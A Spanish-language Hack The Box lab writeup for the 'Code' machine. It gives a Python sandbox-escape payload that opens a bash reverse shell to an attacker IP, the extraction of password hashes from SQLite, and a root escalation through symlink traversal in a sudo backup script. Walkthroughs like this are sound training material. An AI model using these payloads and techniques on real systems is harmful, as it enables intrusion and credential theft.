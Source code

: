 
# 📝 Writeup Detallado – Hack The Box: Code

## 📌 Información General
- **Nombre:** Code  
- **Plataforma:** Hack The Box  
- **Nivel:** Medium  
- **Dirección IP:** 10.129.231.240  

---

## 🔎 1. Reconocimiento

### Escaneo inicial
```bash
ping -c 1 10.129.231.240
```
TTL=63 → probablemente Linux.

Escaneamos todos los puertos TCP:
```bash
nmap -p- --min-rate 5000 -n -Pn 10.129.231.240
```

**Resultados:**
- 22/tcp → SSH (OpenSSH 8.2)  
- 5000/tcp → HTTP (Gunicorn / Python Code Editor)

Escaneo de servicios:
```bash
nmap -sCV -p22,5000 10.129.231.240
```

Confirmamos:  
- **SSH** activo.  
- **Gunicorn server** corriendo una webapp llamada *Python Code Editor*.  

---

## 🌐 2. Enumeración de la aplicación web

Accedemos a `http://10.129.231.240:5000/`.  
Se presenta un editor que permite **ejecutar código Python** vía `/run_code`.  

Endpoints observados en el JavaScript:
- `POST /run_code` → ejecuta código.  
- `POST /save_code` → guarda código (requiere login).  
- `GET /load_code/<id>` → carga snippets.  

---

## 💥 3. Explotación de la sandbox (RCE)

### Prueba inicial
```bash
curl -X POST http://10.129.231.240:5000/run_code --data-urlencode 'code=print(7*7)'
```
➡️ Devuelve `49` → ejecución confirmada.

### Restricciones
Palabras como `os`, `subprocess`, `open` → bloqueadas.

### Bypass
Enumeramos clases ocultas en Python:
```python
().__class__.__mro__[1].__subclasses__()
```

Encontramos `subprocess.Popen` en el índice **317**.  

Payload para shell:
```python
S=().__class__.__mro__[1].__subclasses__()
P=[c for c in S if c.__name__=="Popen"][0]
P("bash -c 'bash -i >& /dev/tcp/10.10.14.167/4444 0>&1'",shell=True)
```

En el atacante:
```bash
nc -lvnp 4444
```

✅ Obtenemos shell como **app-production**.  

---

## 📂 4. Movimiento lateral

Dentro encontramos:
```
/home/app-production/app/instance/database.db
```

Abrimos con SQLite:
```bash
sqlite3 /home/app-production/app/instance/database.db
```

Tablas:
- **user**: contiene credenciales hasheadas.

Usuarios:
```
development : 759b74ce43947f5f4c91aeddc3e5bad3
martin      : 3de6f30c4a09c27fc71932bfc68474be
```

Tras crackear el hash, obtenemos password de `martin`.  
Accedemos vía SSH:
```bash
ssh martin@10.129.231.240
```

---

## 🔑 5. Escalada de privilegios

Revisamos permisos de `sudo`:
```bash
sudo -l
```
Salida:
```
(ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

El script `backy.sh` archiva directorios definidos en un JSON.

### Explotación con symlink
Creamos un symlink en el home:
```bash
ln -s / rootlink
```

Creamos `exploit.json`:
```json
{
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/martin/rootlink/root/"
  ]
}
```

Ejecutamos:
```bash
sudo /usr/bin/backy.sh /home/martin/exploit.json
```

Esto genera un archivo `.tar.bz2` en el home de `martin`.  

### Extracción de flags
Listar contenido:
```bash
tar -tvf code_home_martin_rootlink_root_*.tar.bz2 | grep root.txt
```

Extraer:
```bash
tar -xvf code_home_martin_rootlink_root_*.tar.bz2 home/martin/rootlink/root/root.txt
cat home/martin/rootlink/root/root.txt
```

✅ Obtenemos **root.txt**.  

### User flag
Como `martin` no tenía la flag, repetimos el truco archivando `/home/app-production`.  
Así obtenemos `user.txt`.  

---

## 📌 6. Conclusiones

- El fallo inicial fue un **sandbox escape** en un editor de código Python.  
- El movimiento lateral se basó en lectura de **SQLite con credenciales**.  
- La escalada a root fue posible gracias a **symlink traversal en un script de backup ejecutado como root**.  
- **Flags:**  
  - `user.txt` → en `/home/app-production`  
  - `root.txt` → en `/root`  
